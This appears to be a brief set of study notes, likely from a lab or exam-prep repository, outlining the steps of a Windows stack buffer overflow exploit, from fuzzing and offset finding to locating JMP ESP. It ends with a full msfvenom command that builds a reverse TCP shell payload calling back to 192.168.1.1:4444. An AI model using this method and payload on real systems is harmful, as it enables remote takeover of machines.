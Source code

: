 ##1. Fuzz
- Use Spiking
- Use simple python script
##2. Find offset
- Use metasploit `pattern_create` and `pattern offset`
##3. Find bad character
- Immunity https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
##4. Find module and JMP ESP
- Use metasploit nasm_shell
- Use debugger and mona to find JMP ESP
##5. Create shellcode
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
 ```
